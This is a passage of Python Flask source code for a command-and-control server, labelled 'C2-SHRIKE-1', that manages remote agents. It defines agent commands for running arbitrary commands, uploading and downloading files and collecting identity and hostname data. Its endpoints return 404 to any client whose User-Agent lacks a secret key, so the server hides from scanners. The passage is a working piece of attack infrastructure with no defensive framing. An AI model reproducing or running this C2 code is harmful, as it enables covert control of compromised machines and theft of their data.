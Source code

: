 HEADER_KEY = "z.5.x.2.l.8.y.5"

command_list = []
command_to_execute_next = ""
command_stack_reset_flag = False
agg_commands = open('aggressor.txt', 'r')
lines = agg_commands.readlines()
for line in lines:
    command_list.append(line.strip())

available_commands = ['id', 'whoami', 'upload [Usage: upload server_source agent_dest]', 'download [usage download agent_source server_dest]', 'exec [Usage: exec command_to_run]', 'pwd', "get_hostname"]

live_agents = {}

app = flask.Flask(__name__)
app.secret_key = "000011112222333344445555666677778888"

logging.basicConfig(filename='teamserver.log', level=logging.DEBUG)


def is_user_agent_keyed(user_agent):
    return HEADER_KEY in user_agent


def json_response(app, data):
    try:
        return app.response_class(
            response=json.dumps(data),
            status=200,
            mimetype='application/json'
        )
    except Exception as e:
        return str(e)


def is_command_reset_flag_set(command_stack_reset_flag):
    return command_stack_reset_flag


@app.route("/")
def hello_world():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        return "."
    else:
        abort(404)


@app.route('/api/server', methods=['GET'])
def get_server_info():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        server_info = {"guid": "9e29fc5d-31dc-4fc2-9318-d17b2694d8aa", "name": "C2-SHRIKE-1"}
        return json_response(app, server_info)
    else:
        abort(404)

@app.route('/api/agents', methods=['GET'])
def get_agent_info():
    if is_user_agent_keyed(request.headers.get('User-Agent')):
        if live_agents:
            return str(live_agents), 200
        else:
            return "No live agents", 200
    else:
        abort(404)
